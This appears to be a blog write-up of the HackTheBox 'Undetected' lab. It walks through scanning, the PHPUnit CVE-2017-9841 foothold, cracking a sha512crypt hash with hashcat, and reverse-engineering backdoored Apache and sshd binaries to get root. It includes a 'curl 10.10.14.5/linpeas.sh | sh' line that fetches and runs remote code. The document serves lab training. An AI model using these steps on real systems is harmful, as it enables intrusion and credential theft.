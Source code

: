 ```yaml
---
title: "HackTheBox Undetected Walkthrough"
date: "2022-07-01"
categories: 
  - "htb-walkthroughs"
tags: 
  - "cve-2017-9841"
  - "hex"
  - "reverse"
coverImage: "Undetected.png"
---
```


Let's start off with a rustscan.

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|\_  Supported Methods: GET POST OPTIONS HEAD
|\_http-server-header: Apache/2.4.41 (Ubuntu)
|\_http-title: Diana's Jewelry

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 01:18
Completed NSE at 01:18, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 01:18
Completed NSE at 01:18, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 01:18
Completed NSE at 01:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds

There are only 2 ports open.

Port 80:

[![](images/image-818x1024.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image.png)

Nothing interesting, but we find a link to a subdomain under the navigation bar STORE.

We'll add the store subdomain to /etc/hosts.

We've got a new website.

[![](images/image-3-801x1024.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-3.png)

feroxbuster --url http://store.djewelry.htb/ -x html,php,js -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

200      GET      195l      475w     6215c http://store.djewelry.htb/
301      GET        9l       28w      325c http://store.djewelry.htb/images => http://store.djewelry.htb/images/
403      GET        9l       28w      283c http://store.djewelry.htb/.html
403      GET        9l       28w      283c http://store.djewelry.htb/.php
200      GET      195l      475w     6215c http://store.djewelry.htb/index.php
200      GET      229l      550w     7447c http://store.djewelry.htb/products.php
200      GET      122l      337w     4129c http://store.djewelry.htb/login.php
200      GET      134l      354w     4396c http://store.djewelry.htb/cart.php
301      GET        9l       28w      322c http://store.djewelry.htb/css => http://store.djewelry.htb/css/
301      GET        9l       28w      321c http://store.djewelry.htb/js => http://store.djewelry.htb/js/
301      GET        9l       28w      325c http://store.djewelry.htb/vendor => http://store.djewelry.htb/vendor/
301      GET        9l       28w      324c http://store.djewelry.htb/fonts => http://store.djewelry.htb/fonts/

/vendor looks interesting.

[![](images/image-4.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-4.png)

PHPUnit is vulnerable to CVE 2017-9841. [https://blog.ovhcloud.com/cve-2017-9841-what-is-it-and-how-do-we-protect-our-customers/](https://blog.ovhcloud.com/cve-2017-9841-what-is-it-and-how-do-we-protect-our-customers/)

We can get a shell to www-data with a simple one-liner.  
Another option is to use an exploit-db python code. [https://www.exploit-db.com/exploits/50702](https://www.exploit-db.com/exploits/50702)

[![](images/image-5-1024x135.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-5.png)

We're in but it's only a half shell. We can't cd, however, we can ls and look around.

[![](images/image-6.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-6.png)

looking inside info. There is a hexadecimal code.

[![](images/image-7-1024x845.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-7.png)

After decoding it, we find a sha512crypt $6$, SHA512 (Unix) hash. We'll have to remove the : before and after. Also make sure to remove the \\ escaping the $.

$6$zS7ykHfFMg3aYht4$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/

Let's use Hashcat to try and crack the password.

hashcat.exe -a 0 -m 1800 hash.txt rockyou.txt

[![](images/image-9-1024x296.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-9.png)

We can now ssh into steven. Username steven doesn't work but steven1 works(we found it in /etc/passwd).

[![](images/image-10.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-10.png)

Let's get linpeas going.

steven@production:~$ curl 10.10.14.5/linpeas.sh | sh

It's vulnerable to polkit CVE. However, we can't write files nor use make.

[![](images/image-12-1024x102.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-12.png)

There are interesting files in /var/mail/.

steven@production:/var/mail$ cat steven
From root@production  Sun, 25 Jul 2021 10:31:12 GMT
Return-Path: <root@production>
Received: from production (localhost \[127.0.0.1\])
        by production (8.15.2/8.15.2/Debian-18) with ESMTP id 80FAcdZ171847
        for <steven@production>; Sun, 25 Jul 2021 10:31:12 GMT
Received: (from root@localhost)
        by production (8.15.2/8.15.2/Submit) id 80FAcdZ171847;
        Sun, 25 Jul 2021 10:31:12 GMT
Date: Sun, 25 Jul 2021 10:31:12 GMT
Message-Id: <202107251031.80FAcdZ171847@production>
To: steven@production
From: root@production
Subject: Investigations

Hi Steven.

We recently updated the system but are still experiencing some strange behaviour with the Apache service.
We have temporarily moved the web store and database to another server whilst investigations are underway.
If for any reason you need access to the database or web application code, get in touch with Mark and he
will generate a temporary password for you to authenticate to the temporary server.

Thanks,
sysadmin

Something is up with the Apache service. Let's take a look.

[![](images/image-13-1024x111.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-13.png)

/usr/lib/spache2/modules  
mod\_reader modified in May?

Let's try to look inside the file. I used [https://onlinedisassembler.com/](https://onlinedisassembler.com/) to take a look inside.

[![](images/image-14-1024x284.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-14.png)

we decode the base64 code.

[![](images/image-15-1024x99.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-15.png)

The next binary we need to take a look at is sshd.

I used ghidra and found a auth\_password function.

[![](images/image-16.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-16.png)

[![](images/image-17-601x1024.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-17.png)

We'll need to convert the backdoor hex into something.

[![](images/image-18.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-18.png)

Let's arrange them in order and try it in cyberchef.

Note: you'll need to change 0x5b to 0xa5. I'm not sure why it's showing a different value.

[![](images/image-19.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-19.png)

Arrange the values in order and paste them into cyberchef.

[![](images/image-21-797x1024.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-21.png)

We've got our root password!
